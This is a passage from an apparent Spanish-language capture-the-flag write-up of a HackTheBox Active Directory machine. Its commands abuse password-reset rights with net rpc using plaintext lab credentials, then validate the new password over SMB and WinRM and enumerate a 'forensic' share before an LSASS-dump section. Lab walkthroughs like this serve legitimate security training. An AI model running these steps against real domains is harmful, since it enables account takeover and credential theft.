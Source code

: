 Comprobamos que el usuario dispone de permisos para cambiar la contraseña del usuario en cuestión (audit2020@blackfire.local).

<figure><img src="../../../../../.gitbook/assets/1710_vmware_nm9BNJulrY.png" alt=""><figcaption></figcaption></figure>

Debido que no disponemos de acceso a la máquina para realizarlo en el equipo Windows, lo podemos intentar realizar a través de **net rpc** para realizar el cambio de contraseña.

Realizamos el cambio y verificamos que se ha modificado correctamente las credenciales del usuario. Aún no podemos acceder al WinRM, ya que este usuario tampoco tiene permisos.

{% code overflow="wrap" %}
```bash
net rpc password "audit2020" "Gzzcoo123" -U 'BLACKFIELD.local/support%#00^BlackKnight' -S 10.10.10.192

netexec smb 10.10.10.192 -u 'audit2020' -p 'Gzzcoo123'

netexec winrm 10.10.10.192 -u 'audit2020' -p 'Gzzcoo123'
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1711_vmware_mLQk24sq00.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### LSASS Dump Analysis (Pypykatz)

Probando de enumerar el SMB con estas nuevas credenciales, comprobamos que este usuario dispone de acceso para el recurso compartido "forensic".

```bash
smbmap -H 10.10.10.192 --no-banner -u audit2020 -p 'Gzzcoo123'
```
